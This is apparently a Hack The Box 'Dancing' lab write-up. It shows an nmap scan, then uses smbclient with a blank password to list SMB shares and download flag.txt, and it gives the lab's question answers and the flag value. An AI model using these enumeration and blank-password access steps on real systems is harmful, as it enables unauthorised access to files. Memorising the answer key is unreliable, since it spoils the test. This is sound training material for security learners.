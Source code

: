 ```yaml
---
layout: post
categories:
    - Hack The Box
    - Tier 0
---
```


Server Message Block (SMB) is a communication protocol originally developed in 1983 by Barry A. Feigenbaum at IBM and intended to provide shared access to files and printers across nodes on a network of systems running IBM's OS/2. It also provides an authenticated inter-process communication (IPC) mechanism. In 1987, Microsoft and 3Com implemented SMB in LAN Manager for OS/2, at which time SMB used the NetBIOS service atop the NetBIOS Frames protocol as its underlying transport.


---

💻️ The Target Machine is : 10.129.192.19

---

A tip I would suggest, if you don't want to constantly retype the IP address you can opt to export the address to a variable whose name can be of your chosing. 
In turn you can call the variable as `$[variableName]` the **$** is important.
Conside the command below:
```
-$ export IP=10.129.192.19 
```
The command is entered directly into the terminal that would be currently running and will be only active in that terminal.
To test the command:
```
-$ echo $IP
10.129.192.19
```

### Answering HTB Questions 

> What does the 3-letter acronym SMB stand for?
>> server message block

> What port does SMB use to operate at? 
>> 445

> What is the service name for port 445 that came up in our Nmap scan? 
>> microsoft-ds

> What is the 'flag' or 'switch' we can use with the SMB tool to 'list' the contents of the share? 
>> -L

> How many shares are there on Dancing? 
>> 4

> What is the name of the share we are able to access in the end with a blank password?
>> workshares

> What is the command we can use within the SMB shell to download the files we find? 
>> get

  

## -------------------------| ENUMARATION PHASE |------------------------------

```
-$ sudo nmap -p- --min-rate 5000 -sV -sC $IP -v -oN scan.nmap 

---snip---

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4h00m44s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-11-18T10:24:27
|_  start_date: N/A

---snip---

```
**`-p-`** ==> scan all the 65535 ports.
**`-sV`** ==> Enumerate the version of the service that is open.
**`-sC`** ==> Use default scrips to enumerate certain things like the version, OS
**`-v`** ==> Show me everything that the tool is doing. Being verbose.
**`-oN`** ==> On a normal file output everything there hence the filename [initial_scan]()

## ----------------------------| EXPLOITAION |---------------------------------

With what we have discovered we can try and gain foothold on the machine.

The first thing we can start with is and assume that the password as blank:

```
-$ smbclient -L $IP

 Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
```
We see that there are 4 shares.
The next step is too access a share in our case we are going to access the workshares since it doesn't require any password we can pass in a blank password.

```
-$ smbclient //$IP/WorkShares

Password for [WORKGROUP\olapapi]:
Try "help" to get a list of possible commands.
smb: \> help

---snip---

blocksize      cancel         case_sensitive cd             chmod          
chown          close          del            deltree        dir            
du             echo           exit           get            getfacl        
geteas         hardlink       help           history        iosize         
lcd            link           lock           lowercase      ls             

---snip---

smb: \> ls
  .                                   D        0  Mon Mar 29 11:22:01 2021
  ..                                  D        0  Mon Mar 29 11:22:01 2021
  Amy.J                               D        0  Mon Mar 29 12:08:24 2021
  James.P                             D        0  Thu Jun  3 11:38:03 2021

smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 11:38:03 2021
  ..                                  D        0  Thu Jun  3 11:38:03 2021
  flag.txt                            A       32  Mon Mar 29 12:26:57 2021

smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)

```

> Submit root flag
>> 5f61c10dffbc77a704d76016a22f1664

